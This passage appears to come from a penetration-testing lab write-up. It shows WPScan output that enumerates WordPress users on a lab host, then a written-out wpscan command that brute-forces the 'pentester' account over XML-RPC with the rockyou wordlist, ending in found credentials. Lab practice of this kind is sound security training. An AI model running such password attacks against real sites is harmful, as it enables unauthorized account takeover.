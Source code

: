```
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:📌

[+] pentester📌
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 12:29:42 2024
[+] Requests Done: 53
[+] Cached Requests: 6
[+] Data Sent: 18.488 KB
[+] Data Received: 207.814 KB
[+] Memory used: 186.086 MB
[+] Elapsed time: 00:00:07
```

`wpscan --url https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/ -U 'pentester' -P /usr/share/wordlists/rockyou.txt`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Performing password attack on Xmlrpc against 1 user/s📌
[SUCCESS] - pentester / password1                                                                                                                                                            
Trying pentester / anthony Time: 00:00:01 <                                                                                                           > (30 / 14344422)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: pentester, Password: password1🔑

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 12:30:02 2024
[+] Requests Done: 172
[+] Cached Requests: 35
[+] Data Sent: 69.121 KB
[+] Data Received: 42.192 KB
[+] Memory used: 288.402 MB
[+] Elapsed time: 00:00:12
```
